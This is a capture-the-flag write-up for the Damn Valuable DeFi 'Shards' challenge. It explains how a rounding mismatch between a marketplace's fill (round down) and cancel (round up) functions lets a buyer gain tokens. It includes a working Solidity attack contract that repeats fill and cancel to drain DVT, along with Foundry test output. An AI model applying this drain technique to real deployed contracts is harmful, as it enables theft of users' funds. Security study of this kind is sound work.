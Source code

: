 # Challenge - Shards

The Shards NFT marketplace is a permissionless smart contract enabling holders of Damn Valuable NFTs to sell them at any price (expressed in USDC).

These NFTs could be so damn valuable that sellers can offer them in smaller fractions (“shards”). Buyers can buy these shards, represented by an ERC1155 token. The marketplace only pays the seller once the whole NFT is sold.

The marketplace charges sellers a 1% fee in Damn Valuable Tokens (DVT). These can be stored in a secure on-chain vault, which in turn integrates with a DVT staking system.

Somebody is selling one NFT for… wow, a million USDC?

You better dig into that marketplace before the degens find out.

## Objective of CTF

You start with no DVTs. Rescue as much funds as you can in a single transaction, and deposit the assets into the designated recovery account.

## Vulnerability Analysis

### Root Cause: Rounding Error

The marketplace offers a `fill` function that allows a buyer to partially or fully fulfill an offer. It first validates the input parameters, then transfers the `paymentToken` (e.g. DVT token) from the buyer to the marketplace. The relevant code is shown below:

```solidity
function fill(uint64 offerId, uint256 want) external returns (uint256 purchaseIndex) {
    Offer storage offer = offers[offerId];
    if (want == 0) revert BadAmount();
    if (offer.price == 0) revert UnknownOffer();
    if (want > offer.stock) revert OutOfStock();
    if (!offer.isOpen) revert NotOpened(offerId);

    offer.stock -= want;
    purchaseIndex = purchases[offerId].length;
    uint256 _currentRate = rate;
    purchases[offerId].push(
        Purchase({
            shards: want,
            rate: _currentRate,
            buyer: msg.sender,
            timestamp: uint64(block.timestamp),
            cancelled: false
        })
    );
    paymentToken.transferFrom(
        msg.sender, address(this), want.mulDivDown(_toDVT(offer.price, _currentRate), offer.totalShards)
    );
    if (offer.stock == 0) _closeOffer(offerId);
}
```

However, the payment amount is calculated using the `mulDivDown` function, which rounds down the fractional part of the calculation. This introduces a potential vulnerability: we can use the `fill` function to buy NFT shards without actually paying any `DVT` tokens.

```solidity
function cancel(uint64 offerId, uint256 purchaseIndex) external {
    Offer storage offer = offers[offerId];
    Purchase storage purchase = purchases[offerId][purchaseIndex];
    address buyer = purchase.buyer;

    if (msg.sender != buyer) revert NotAllowed();
    if (!offer.isOpen) revert NotOpened(offerId);
    if (purchase.cancelled) revert AlreadyCancelled();
    if (
        purchase.timestamp + CANCEL_PERIOD_LENGTH < block.timestamp
            || block.timestamp > purchase.timestamp + TIME_BEFORE_CANCEL
    ) revert BadTime();

    offer.stock += purchase.shards;
    assert(offer.stock <= offer.totalShards); // invariant
    purchase.cancelled = true;

    emit Cancelled(offerId, purchaseIndex);

    paymentToken.transfer(buyer, purchase.shards.mulDivUp(purchase.rate, 1e6));
}
```

The marketplace also provides a `cancel` function, allowing users to cancel their NFT purchases and receive a refund in `DVT` tokens. The refund amount is calculated using the `mulDivUp` function, which rounds up the fractional part.

By exploiting this rounding discrepancy, we can purchase NFT shards without paying any DVT upfront, and then immediately cancel the purchase to receive a DVT refund. The marketplace’s rounding error in handling the fill logic allows us to exploit this and gain extra DVT tokens.

### Attack steps:

1. Find a purchase amount where you can buy NFT shards without paying DVT tokens.
2. Cancel the previous purchase to receive a DVT refund from the marketplace. Repeat these two steps until the DVT tokens are fully drained from the marketplace.
3. Transfer the recovered DVT tokens to the designated recovery address.

Note: Due to gas usage limitations, we cannot drain all the DVT tokens from the marketplace in a single transaction.

## PoC test case

### Attack Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity =0.8.25;

import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";

interface IMarketplace {
    function fill(uint64 offerId, uint256 want) external returns (uint256 purchaseIndex);
    function cancel(uint64 offerId, uint256 purchaseIndex) external;
}

contract AttackShards {
    uint256 private constant want = 133; // maximum shards you can buy without pay any token

    address private immutable marketplace;
    address private immutable token;
    address private immutable recovery;

    constructor(address _marketplace, address _token, address _recovery) {
        marketplace = _marketplace;
        token = _token;
        recovery = _recovery;

        uint256 purchaseIndex;
        for (uint256 i; i < 7550; ++i) {
            purchaseIndex = IMarketplace(marketplace).fill(1, want);
            IMarketplace(marketplace).cancel(1, purchaseIndex);
        }

        uint256 rescuedAmount = IERC20(token).balanceOf(address(this));
        IERC20(token).transfer(recovery, rescuedAmount);
    }
}
```

### Test contract

### Test Result

```
Ran 2 tests for test/shards/Shards.t.sol:ShardsChallenge
[PASS] test_assertInitialState() (gas: 80211)
[PASS] test_shards() (gas: 619630821)
Logs:
  -------------------------- Before exploit --------------------------
  token balance in the marketplace: 750.000000000000000000
  token balance in the recovery address: 0.000000000000000000
  -------------------------- After exploit --------------------------
  token balance in the marketplace: 749.924688750000000000
  token balance in the recovery address: 0.075311250000000000
  75311250000000000

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 234.78ms (225.39ms CPU time)

Ran 1 test suite in 244.36ms (234.78ms CPU time): 2 tests passed, 0 failed, 0 skipped (2 total tests)
```
